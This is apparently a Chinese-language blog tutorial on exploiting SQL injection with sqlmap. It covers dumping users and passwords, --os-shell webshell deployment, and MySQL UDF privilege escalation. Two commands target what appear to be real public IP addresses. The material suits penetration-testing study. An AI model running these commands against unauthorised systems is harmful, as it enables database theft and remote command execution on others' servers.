SQL注入虽然作为经典漏洞，但我在实战中多数情况只是点到为止，并没有深入利用过。这次来总结一下sql注入的利用方式。

## 常规利用

sqlmap是必不可少的工具

~~~
python .\sqlmap.py -u "http://47.106.80.112:8011/?r=content&cid=1" 
# url中存在&时要用""括起来
//指定文件
python .\sqlmap.py -r .\postinject.txt

python .\sqlmap.py -u http://101.43.138.109/ajax/api/content_infraction/getIndexableContent --data "nodeId[nodeid]=1" -proxy=http://127.0.0.1:8080
//设置代理
~~~

查看基本信息

~~~
sqlmap -u "url" --users //查看所有用户
sqlmap -u "url" --current-db //查看当前的数据库
sqlmap -u "url" --current-user //产看当前的用户
sqlmap -u "url" --is-dba //查看是否是最高权限
sqlmap -u "url" --passwords //查看所有密码
sqlmap -u "url" –hostname //查看主机名
sqlmap -u "url" privileges -U username //查看用户权限
sqlmap -u "url" –roles //查看用户角色
~~~

基本参数

~~~
--dbs  //查询数据库
-D <数据库名> --tables //查表
-D <seacms_com> -T <adword> --columns //查询字段
-D seacms_com -T adword -C ad1, ad2 --dump //获取字段内容
-D seacms_com -T adword --dump //下载整个表
~~~

### `--sql-shell` 模式

--sql-shell 可执行sql语句

### --os-shell

顾名思义，这个功能就是执行系统命令，相当于一个webshell，然而利用条件十分苛刻。

~~~
（1）必须是dba权限
（2）攻击者需要知道网站的绝对路径
（3）GPC为off，php主动转义的功能关闭
（4）secure_file_priv= 值为空

secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

NULL	不允许导入或导出
/tmp	只允许在 /tmp 目录导入导出
空	不限制目录

在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径写文件

在 MySQL 5.5之后 secure_file_priv 默认是 NULL，这个情况下不可以写文件
~~~

sql注入漏洞的常规思路：通过注入找管理员账户密码，登录管理员账户进入后台，寻找文件上传，命令执行。。。。

## 写webshell提权

目前secure_file_priv值为空，全部条件满足，可以利用





分析一下sqlmap的利用流程，执行命令后首先是创建了一个具有上传功能的页面。





随后又利用这个页面上传了一个webshell



通过webshell执行命令



重新设置secure_file_priv的值，删掉木马



上传失败，提示没有权限

~~~
[15:23:07] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
~~~



但是还是可以向C:/test/文件夹写入文件的。可以结合本地文件包含利用。



网站绝对路径收集方式

~~~
网页报错信息
phpinfo、探针
数据库查询、暴力破解
~~~



## UDF 提权

自定义函数，是数据库功能的一种扩展。通过上传对应的dll或so文件，在sql语句用即可调用自定义函数执行命令。

如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。如果mysql版本小于5.1， udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。

如果lib\plugin目录不存在，则需要先创建

~~~
show variables like '%plugin%';
//低版本mysql查询结果为空
~~~

不同版本的dll或so文件，在sqlmap或msf中可以找到。

~~~
sqlmap根目录/data/udf/mysql
MSF 根目录/embedded/framework/data/exploits/mysql
~~~

目前情景是SQL 注入且是高权限，plugin 目录可写且需要 secure_file_priv 无限制，直接上传

~~~
python .\sqlmap.py -r .\post.txt --file-write=""C:\Users\94323\Desktop\lib_mysqludf_sys_32.dll"" --file-dest="C:\udf.dll"
~~~

但不知道为什么，文件原大小为7kb，上传的文件只有1kb。

也可以用--os-shell步骤中得到的文件上传页面去上传dll文件。由此看来对udf的利用是在有webshell之后。



上传成功后创建自定义函数并调用命令

~~~
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
[14:58:56] [WARNING] execution of non-query SQL statements is only available when stacked queries are supported
~~~

sqlmap提示我非查询类sql语句只有在堆叠注入时才支持，这条件就很苛刻了，我还从没在实战中遇到过堆叠注入。看来只有3306连上去才能利用udf提权。



udf提权利用总结

- 知道数据库的用户和密码（配置文件泄露）
- mysql可以远程登录
- mysql有写入文件的权限，即secure_file_priv的值为空。

udf提权的利用条件很苛刻，但在拥有webshell权限的情况下，通过udf提权可以获得高权限账户。

